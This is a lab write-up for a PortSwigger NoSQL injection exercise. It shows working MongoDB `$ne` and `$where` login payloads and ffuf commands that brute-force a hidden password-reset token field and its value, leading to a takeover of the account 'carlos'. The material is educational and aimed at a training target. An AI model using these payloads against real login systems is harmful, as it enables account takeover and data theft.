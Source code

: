# Exploiting NoSQL operator injection to extract unknown fields

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

![Lab Description](img/lab-description.png)

## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application has a My Account page that redirects to log in if a user is not logged in. It also has a forgot password page.

The login page sends the username and password in JSON format to the application server. Notice that appending the apostrophe at the last of the username value does not generate a different response.

```json
{"username":"carlos'","password": "password"}
```

However, if we put Mongodb operator like `$where` or `$ne` we can observe that the application generates subtly different responses.

Like, the below payload returns an `Invalid username or password` in response:

```json
{"username":"carlos","password":"password"}
```

While this payload returns `Account locked: please reset your password` in response:

```json
{"username":"carlos","password":{"$ne": ""}}
```

![Lab Description](img/ne-operator.png)

Now, let's see if the javascript expression is being evaluated, we have to put the javascript expression inside the `$where` clause to have any effect.

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"1"}
```

![Lab Description](img/where-1-operator.png)

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"0"}
```

![Lab Description](img/where-0-operator.png)

The first payload returned `Account locked: please reset your password` while the second one returned `Invalid username or password`. This indicates that javascript expression inside `$where` clause is being evaluated.

**Now, let's try to extract unkown field names:**

We know that the first field in MongoDB is usually called `_id`. Let's check that.

```json
{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[0] == '_id'"}
```

![Lab Description](img/valid-first-field.png)

Hmm, the application returned `Account locked: please reset your password` as we were expecting.

There is another way to do this for extracting unknown fields. Using the below payload we can match the character one at a time to extract an unknown field.

```json
{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[0].match(/^[_id]/g)"}
```

## Extracting field name

We already know that the first field is _id. After some fuzzing, we found that the second, third, and fourth fields are username, password, and email, respectively.

We also found the fifth unknown field, which in this case is a `pwResetTkn`.

**We used `ffuf` with the below payload to extract unknown fields.**

```bash
ffuf -X POST -u https://YOUR-LAB-ID.web-security-academy.net/login -w wordlist/alpha_numeric.txt -H "Content-Type: application/json" -d '{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[4].match(/^FUZZ/g)"}'
```

## Unknown Field Verification

Now that we know the unknown field name let's verify it. The login page contained a `/forgot-password` link click on that to view the response.

Request an invalid field in the URL: `/forgot-password?foo=invalid`. Notice that the response is identical to the original response.

Now request your exfiltrated name of the password reset token field in the URL: `/forgot-password?YOURTOKENNAME=invalid`. Notice that you receive an Invalid token error message. This confirms that you have the correct token name and endpoint.

## Finding value of unknown field

```bash
ffuf -X POST -u https://YOUR-LAB-ID.web-security-academy.net/login -w wordlist/alpha_numeric.txt -H "Content-Type: application/json" -d '{"username":"carlos","password":{ "$ne": "" }, "$where": "this.YOURTOKENNAME.match(/^FUZZ/g)"}'
```

After finding the value of the `reset token`, submit the value of the password reset token in the URL of the `/forgot-password` request: GET `/forgot-password?YOURTOKENNAME=TOKENVALUE` and change the password of user carlos, and login in as `carlos` to solve the lab.

![Lab Solved](img/lab-solved.png)
